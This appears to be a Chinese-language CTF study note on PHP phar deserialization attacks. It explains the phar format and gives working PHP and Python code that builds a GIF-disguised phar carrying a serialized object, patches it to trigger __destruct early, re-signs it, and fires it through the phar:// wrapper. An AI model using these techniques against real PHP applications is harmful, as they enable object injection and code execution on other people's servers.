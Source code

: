 - # 介绍
	- phar 类似于压缩包，但除了文件之外，phar 还包含一个被序列化的对象。
	  当我们用`phar://phar.gif/test.txt`访问 phar 文件`phar.gif`内的文件时，插入其中的对象会被反序列化，并会在之后被销毁（也就是会执行`__destruct()`）。
- # .phar 文件格式
	- [文档](https://www.php.net/manual/en/phar.fileformat.php)
	- 1. `phar`文件头的识别格式是`xxx` + `<?php __HALT_COMPILER(); ?>`，只有这样的格式才能被识别为`phar`文件
	  2. `phar`是压缩文件，那么压缩文件的信息就会存在第二段**manifest describing**，这一段是放序列化的`poc`
	  3. 压缩的文件的内容被存在第三段，也就是上面 payload 的中的`text.txt`
	  4. 数字签名为该`phar`的第四段
	- Phar文件支持gzip压缩等压缩格式，即使压缩成了`phar.phar.gz`之类的格式也能正常读写。
		- [参考](https://www.anquanke.com/post/id/240007#h2-5)
	- 如何修改数字签名
		- 这里的数字签名仅是md5,sha1等哈希算法对前面部分的哈希
		- 其中具体使用什么哈希算法可以参照[这里](https://www.php.net/manual/en/phar.fileformat.signature.php)对比结尾得知
		- 在修改了前面一部分之后可以这么重新签名
			- ```python
			  def sha1_hash(s):
			      sha1_obj = hashlib.sha1()
			      sha1_obj.update(s)
			      return sha1_obj.digest()
			  with open("test/phar.phar", "rb") as f:
			      content = f.read()
			      # content = content.replace(b"i:1;i:114514;", b"i:0;i:114514;")
			      print(content)
			      content = content[:-28] + sha1_hash(content[:-28]) + content[-8:]
			      print(content)
			      with open("modified.phar", "wb") as out:
			          out.write(content)
			  ```
- # Phar上的快速触发GC
	- 普通的快速触发GC：将对象放入一个array中，在后面加入一个数字，然后将`i:1`（数字的下标）改成`i:0`（对象的下标）即可
	- Phar上操作类似，只不过需要重新产生签名
		- ```php
		  $o = new getflag();
		  $o = [$o, 114514];
		  //打开phar文件
		  @unlink("phar.phar");
		  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
		  $phar->startBuffering();
		  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
		  
		  //放入对象
		  $phar->setMetadata($o);
		  
		  //添加压缩的文件（test为其中的内容）
		  $phar->addFromString("test.txt", "test114514");
		  $phar->stopBuffering();
		  
		  ```
		- ```python
		  def sha1_hash(s):
		      sha1_obj = hashlib.sha1()
		      sha1_obj.update(s)
		      return sha1_obj.digest()
		  # 打开上方PHP生成的phar文件
		  with open("test/phar.phar", "rb") as f:
		      content = f.read()
		      assert content[-8] == 2 # sha1
		      content = content.replace(b"i:1;i:114514;", b"i:0;i:114514;")
		      print(content)
		      content = content[:-28] + sha1_hash(content[:-28]) + content[-8:]
		      print(content)
		      with open("modified.phar", "wb") as out:
		          out.write(content)
		  ```
	-
- # 生成 Phar 文件
	- ```php
	  <?php
	  //反序列化payload构造
	  class TestObject {
	  }
	  $o = new TestObject();
	  $o->data='just a test';
	  //打开phar文件
	  @unlink("phar.phar");
	  $phar = new Phar("phar.phar"); //生成时后缀名必须为phar
	  $phar->startBuffering();
	  $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
	  
	  //放入对象
	  $phar->setMetadata($o);
	  
	  //添加压缩的文件（test为其中的内容）
	  $phar->addFromString("test.txt", "test");
	  $phar->stopBuffering();
	  ?>
	  ```
- # 利用 Phar 文件
	- ```php
	  <?php
	  	class TestObject{
	          function __destruct(){
	              echo $this->data;
	          }
	  	}
	  
	  	include "phar://phar.phar/test.txt";
	  ?>
	  ```
	  
	  访问`phar://phar.phar`也可以利用
- # 其他
	- https://www.php.net/manual/en/phar.using.intro.php
	- phar 文件中可以塞 PHP 命令
-